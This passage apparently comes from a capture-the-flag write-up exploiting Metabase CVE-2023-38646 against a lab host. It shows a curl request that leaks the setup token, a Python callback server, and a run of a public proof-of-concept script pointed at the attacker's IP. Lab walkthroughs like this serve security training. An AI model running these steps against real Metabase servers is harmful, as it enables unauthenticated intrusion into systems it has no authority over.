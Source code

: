 ```BASH
python3 CVE-2023-38646.py 

   _____   _____   ___ __ ___ ____   ____ ___   __ _ _   __
  / __\ \ / / __|_|_  )  \_  )__ /__|__ /( _ ) / /| | | / /
 | (__ \ V /| _|___/ / () / / |_ \___|_ \/ _ \/ _ \_  _/ _ \
  \___| \_/ |___| /___\__/___|___/  |___/\___/\___/ |_|\___/

By: kh4sh3i

usage: CVE-2023-38646.py [-h] -u URL -t TOKEN -c COLLABRATOR
CVE-2023-38646.py: error: the following arguments are required: -u/--url, -t/--token, -c/--collabrator
```

The first of which is the target's URL, which we have. The second is a token, and the last is the URL for `Burp`'s Collaborator, which we can replace by a Python web server. 

To obtain the token we research the vulnerability further, referring to resources such as this [blog](https://blog.calif.io/p/reproducing-cve-2023-38646-metabase). 

The token referred to in the PoC is the setup token used to initially configure `Metabase`. This token, among other information, can be fetched without authentication by sending a `GET` request to the `/api/session/properties` endpoint:

```bash 
curl http://metabase.apethanto.htb/api/session/properties | jq

<...SNIP...>
  "landing-page": "",
  "setup-token": "819139a8-1ce9-46f0-acf8-9b4fc0d1164b",
  "application-colors": {},
  "enable-audit-app?": false,
  "anon-tracking-enabled": false,
  "version-info-last-checked": null,
<...SNIP...>
```

Armed with the setup token, we now try to run the PoC against the target. We first start an HTTP server using python:

```bash
python3 -m http.server 80 
```

Then, we run the PoC; we make sure to specify our attacking machine's IP as the parameter for the `-c` flag: 

```bash
python3 CVE-2023-38646.py -u http://metabase.apethanto.htb -t '819139a8-1ce9-46f0-acf8-9b4fc0d1164b' -c http://10.10.14.59

   _____   _____   ___ __ ___ ____   ____ ___   __ _ _   __
  / __\ \ / / __|_|_  )  \_  )__ /__|__ /( _ ) / /| | | / /
 | (__ \ V /| _|___/ / () / / |_ \___|_ \/ _ \/ _ \_  _/ _ \
  \___| \_/ |___| /___\__/___|___/  |___/\___/\___/ |_|\___/

By: kh4sh3i

Done! Check Burp Colabrator!!
```
